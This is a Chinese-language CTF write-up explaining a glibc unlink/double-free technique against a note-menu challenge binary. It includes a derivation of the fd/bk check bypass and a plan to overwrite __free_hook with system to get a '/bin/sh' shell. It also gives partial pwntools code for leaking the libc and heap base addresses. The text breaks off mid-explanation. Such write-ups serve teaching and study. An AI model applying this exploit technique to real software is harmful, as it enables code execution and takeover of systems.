






## double free的基本原理
```
FD = P->fd;
BK = P->bk;
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
    malloc_printerr (check_action, "corrupted double-linked list", P, AV);
else {
    FD->bk = BK;
    BK->fd = FD;
}
```
根据chunk的结构可知 `p->fd=p+0x10,p->bk=p+0x18`<br>
所以上面代码就可以转换成<br>
```
FD = P->fd; //FD = P + 0x10
BK = P->bk; //BK = P + 0x18
if (__builtin_expect (FD->bk != P || BK->fd != P, 0)) //FD + 0x18 != P || BK + 0x10 != P  
    malloc_printerr (check_action, "corrupted double-linked list", P, AV);
else {
    FD->bk = BK; //FD + 0x18 = BK = P + 0x18
    BK->fd = FD; //BK + 0x10 = FD = P + 0x10
}
```
由于其中有 `FD->bk != P || BK->fd != P` 这个判断，所以最容易构造的场景就是找到一个指向P的指针A<br>
```
P = FD->bk && P = BK->fd  ==> P = FD+0x18 && P = BK+0x10
P = FD+0x18 && P = BK+0x10 ==> P = P->fd + 0x18 && P = P->bk + 0x10
A = P //存在指向P的指针A
P = P->fd + 0x18 && P = P->bk + 0x10 ==> A = P->fd + 0x18 && A = P->bk + 0x10
A = P->fd + 0x18 && A = P->bk + 0x10 ==> A - 0x18 = P->fd && A - 0x10 = P->bk
```
推导的结论就是 `P->fd = A - 0x18  &&  P->bk = A - 0x10 ` <br>
能找到满足条件的A，并且将P的fd和bk填充成上述值，就能通过上面的double-linked list的检测<br>
并且能将A的值改写成 <br>
```
BK->fd = FD ==> P->bk->fd = P->fd 
            ==> P->bk = P 
            ==> A->bk = A 
            ==> A+0x18 = A
            ==> A = A - 0x18 //A最终会被赋值成A-0x18的值，这里=不是等，是赋值
```
说人话，double free 就是找到一个指向P的指针A，让P的fd和bk和A互相指，通过if的判断，并且可以修改A的值<br>
这里说的可能不是很清楚，用题目里面的具体数据来解释可能会好一些<br>

## unlink
### 一个menu题目


### 漏洞点
首先看一下new_note<br>
qword_6020A8+8 是note总数量<br>
之后是一个结构体<br>
```
struct note{
    int in_use;     //qword_6020A8+24*i+16
    int len;        //qword_6020A8+24*i+24
    char* data;     //qword_6020A8+24*i+32
}
```
<br>

漏洞点主要在free_note<br>
free_note只将in_use和len清0，总数减一，但是free的时候没有判断这个note是否in_use<br>
并且data的指针只free，没有置空，所以这里存在double free<br>
<br>

### 利用总体思路
1.申请smallbin大小的chunk，然后将其free，使得此chunk的fd和bk填充上unsorted bin的地址<br>
2.使用edit_note合并第一步free的chunk,然后通过list泄露libc基址，用同样的方法泄露出heap的基址<br>
3.利用note结构体中指向heap的指针和heap中的chunk构造double free，使得修改了note结构体中data的地址，让data指向了note结构体<br>
4.edit根据note结构体中的data来写，所以这一步可以对note结构体里面的任意写，这里<br>
```
note[0]->data=free_hook
note[1]->data=note[2]->in_use
note[2]->in_use='/bin/sh\x00'
```
5.然后edit(note[0])就可以修改free_hook的地址，修改成system，之后free(note[1]->data) --> system('/bin/sh\x00')

### 详细的利用步骤
#### 1.申请smallbin大小的chunk，然后将其free，使得此chunk的fd和bk填充上unsorted bin的地址
chunkb和chunkd都被串在unsorted bin 上了<br>
此时chunka即包含libc的基址（指向unsorted bin），也包含指向heap的基址（指向chunkb）<br>
<br>
```
new(0x100,'a'*0xff)
new(0x100,'b'*0xff)
new(0x100,'c'*0xff)
new(0x100,'d'*0xff)
new(0x100,'e'*0xff)

delete(1)
delete(3)
```

#### 2.使用edit_note合并第一步free的chunk,然后通过list泄露libc基址，用同样的方法泄露出heap的基址
使用chunka去,通过edit_note中的realloc合并chunkb,然后通过list就可以泄露基址了<br>
```
edit(0,0x110,'a'*0x10f)
list()
libc_base=u64(p.recvuntil('\x7f')[-6:] + '\x00\x00')
libc_base = libc_base-0x58-libc.symbols['__malloc_hook']-0x10
success(hex(libc_base))

edit(0,0x118,'a'*0x117)
list()
heap_addr=u64(p.recvuntil('\x60')[-3:] + '\x00'*5)

gbuff=heap_addr-(256+16)*3-0x1810
success(hex(gbuff))
```

#### 3.利用note结构体中指向heap的指针和heap中的chunk构造double free
虽然chunkb在前面被free了，但是在note[1]结构体中依然保存着chunkb的data区域的指针<br>
然后通过edit中的realloc可以修改chunkb的fd和bk伪造chunk<br>
chunka+chunkb的这一块大空间伪造了三个chunk<br>
chunk0(free)+chunk1(将要被free，造成double free)+chunk2(size正常，规避next-size检测机制)<br>
Q1:如何double free呢？


<br>


